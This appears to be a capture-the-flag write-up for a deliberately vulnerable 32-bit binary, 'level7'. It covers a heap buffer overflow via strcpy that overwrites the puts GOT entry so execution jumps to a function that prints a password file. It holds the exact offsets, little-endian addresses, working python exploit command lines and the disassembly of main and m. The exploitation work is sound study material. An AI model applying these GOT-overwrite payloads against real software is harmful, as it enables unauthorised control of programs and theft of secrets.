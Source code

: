 - attack: buffer overflow
- binary behavior: segfault without or with 1 parameter, ~~ with 2 parameters
- targeted functions: m and main
- vulnerability in m: strcpy() in comparison strncpy() has no limitimg argument
- defense: function n with system call is non-called

Method: send  link to fopens (after sedons strcpy) to the function with printf
- find the overflow offset for second strcpy
- find eip offest address after overflowing strcpy
- find the address of m function
- overflow and change eip address by m address
- enter to the m function

Info:
- offset size - 20
- 0x8049928 - address of jmp in puts
- same in hex - \x28\x99\x04\x08
- 080484f4 - address of m function
- same in hex - \xf4\x84\x04\x08

Code:
objdump -d ./level7
ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa
ltrace ./level7 $(python -c 'print "b" * 20 + "\x28\x99\x04\x08"') 
./level7 $(python -c 'print "b" * 19 + "\x28\x99\x04\x08"')  $(python -c 'print "\xf4\x84\x04\x08"')
./level7 $(python -c 'print "b" * 20 + "\x28\x99\x04\x08"')  $(python -c 'print "\xf4\x84\x04\x08"')


Functions


08048521 <main>:
 8048521:       55                      push   %ebp
 8048522:       89 e5                   mov    %esp,%ebp
 8048524:       83 e4 f0                and    $0xfffffff0,%esp
 8048527:       83 ec 20                sub    $0x20,%esp
 804852a:       c7 04 24 08 00 00 00    movl   $0x8,(%esp)
 8048531:       e8 ba fe ff ff          call   80483f0 <malloc@plt>
 8048536:       89 44 24 1c             mov    %eax,0x1c(%esp)
 804853a:       8b 44 24 1c             mov    0x1c(%esp),%eax
 804853e:       c7 00 01 00 00 00       movl   $0x1,(%eax)
 8048544:       c7 04 24 08 00 00 00    movl   $0x8,(%esp)
 804854b:       e8 a0 fe ff ff          call   80483f0 <malloc@plt>
 8048550:       89 c2                   mov    %eax,%edx
 8048552:       8b 44 24 1c             mov    0x1c(%esp),%eax
 8048556:       89 50 04                mov    %edx,0x4(%eax)
 8048559:       c7 04 24 08 00 00 00    movl   $0x8,(%esp)
 8048560:       e8 8b fe ff ff          call   80483f0 <malloc@plt>
 8048565:       89 44 24 18             mov    %eax,0x18(%esp)
 8048569:       8b 44 24 18             mov    0x18(%esp),%eax
 804856d:       c7 00 02 00 00 00       movl   $0x2,(%eax)
 8048573:       c7 04 24 08 00 00 00    movl   $0x8,(%esp)
 804857a:       e8 71 fe ff ff          call   80483f0 <malloc@plt>
 804857f:       89 c2                   mov    %eax,%edx
 8048581:       8b 44 24 18             mov    0x18(%esp),%eax
 8048585:       89 50 04                mov    %edx,0x4(%eax)
 8048588:       8b 45 0c                mov    0xc(%ebp),%eax
 804858b:       83 c0 04                add    $0x4,%eax
 804858e:       8b 00                   mov    (%eax),%eax
 8048590:       89 c2                   mov    %eax,%edx
 8048592:       8b 44 24 1c             mov    0x1c(%esp),%eax
 8048596:       8b 40 04                mov    0x4(%eax),%eax
 8048599:       89 54 24 04             mov    %edx,0x4(%esp)
 804859d:       89 04 24                mov    %eax,(%esp)
 80485a0:       e8 3b fe ff ff          call   80483e0 <strcpy@plt>
 80485a5:       8b 45 0c                mov    0xc(%ebp),%eax
 80485a8:       83 c0 08                add    $0x8,%eax
 80485ab:       8b 00                   mov    (%eax),%eax
 80485ad:       89 c2                   mov    %eax,%edx
 80485af:       8b 44 24 18             mov    0x18(%esp),%eax
 80485b3:       8b 40 04                mov    0x4(%eax),%eax
 80485b6:       89 54 24 04             mov    %edx,0x4(%esp)
 80485ba:       89 04 24                mov    %eax,(%esp)
 80485bd:       e8 1e fe ff ff          call   80483e0 <strcpy@plt>
 80485c2:       ba e9 86 04 08          mov    $0x80486e9,%edx
 80485c7:       b8 eb 86 04 08          mov    $0x80486eb,%eax
 80485cc:       89 54 24 04             mov    %edx,0x4(%esp)
 80485d0:       89 04 24                mov    %eax,(%esp)
 80485d3:       e8 58 fe ff ff          call   8048430 <fopen@plt> # opens password
 80485d8:       89 44 24 08             mov    %eax,0x8(%esp)
 80485dc:       c7 44 24 04 44 00 00    movl   $0x44,0x4(%esp)
 80485e3:       00
 80485e4:       c7 04 24 60 99 04 08    movl   $0x8049960,(%esp)
 80485eb:       e8 d0 fd ff ff          call   80483c0 <fgets@plt>
 80485f0:       c7 04 24 03 87 04 08    movl   $0x8048703,(%esp)
 80485f7:       e8 04 fe ff ff          call   8048400 <puts@plt>
 80485fc:       b8 00 00 00 00          mov    $0x0,%eax
 8048601:       c9                      leave
 8048602:       c3                      ret


 080484f4 <m>:
 80484f4:       55                      push   %ebp
 80484f5:       89 e5                   mov    %esp,%ebp
 80484f7:       83 ec 18                sub    $0x18,%esp
 80484fa:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048501:       e8 ca fe ff ff          call   80483d0 <time@plt>
 8048506:       ba e0 86 04 08          mov    $0x80486e0,%edx
 804850b:       89 44 24 08             mov    %eax,0x8(%esp)
 804850f:       c7 44 24 04 60 99 04    movl   $0x8049960,0x4(%esp)
 8048516:       08
 8048517:       89 14 24                mov    %edx,(%esp)
 804851a:       e8 91 fe ff ff          call   80483b0 <printf@plt>
 804851f:       c9                      leave
 8048520:       c3                      ret

 08048400 <puts@plt>:
 8048400:       ff 25 28 99 04 08       jmp    *0x8049928
 8048406:       68 28 00 00 00          push   $0x28
 804840b:       e9 90 ff ff ff          jmp    80483a0 <_init+0x34>